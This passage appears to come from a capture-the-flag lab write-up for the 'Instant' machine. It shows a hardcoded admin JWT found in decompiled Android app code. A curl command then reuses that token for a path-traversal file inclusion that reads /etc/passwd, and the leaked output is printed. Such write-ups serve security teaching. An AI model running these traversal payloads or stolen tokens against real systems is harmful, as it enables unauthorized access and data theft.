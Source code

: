 ```java
public class AdminActivities {
    private String TestAdminAuthorization() {
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/view/profile").addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build()).enqueue(new Callback() { // ...
```

- So apparently, the developers have not cleaned up the code leaving us with the **Authorization Token** needed to make unauthorized API requests.

##### API Hacking

- We can perform a Local File Inclusion with *curl* command (remember the argument `--path-as-is`, otherwise, the `../../` won't work):

```bash
$: curl --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../../../../../../etc/passwd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

```
{"/home/shirohige/logs/../../../../../../../../etc/passwd":["root:x:0:0:root:/root:/bin/bash\n","daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n","bin:x:2:2:bin:/bin:/usr/sbin/nologin\n","sys:x:3:3:sys:/dev:/usr/sbin/nologin\n","sync:x:4:65534:sync:/bin:/bin/sync\n","games:x:5:60:games:/usr/games:/usr/sbin/nologin\n","man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n","lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n","mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n","news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n","uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n","proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n","www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n","backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n","list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n","irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n","_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n","nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n","systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n","systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n","dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n","messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n","systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n","pollinate:x:102:1::/var/cache/pollinate:/bin/false\n","polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n","usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n","sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n","shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n","_laurel:x:999:990::/var/log/laurel:/bin/false\n"],"Status":201}
```

- For a clean view, we can format the output with *sed* command:

```bash
$: curl --path-as-is (...) | sed 's/",/\n/g' | sed 's/^"//g' | sed 's/\\n//g'
```

```
{"/home/shirohige/logs/../../../../../../../../etc/passwd":["root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```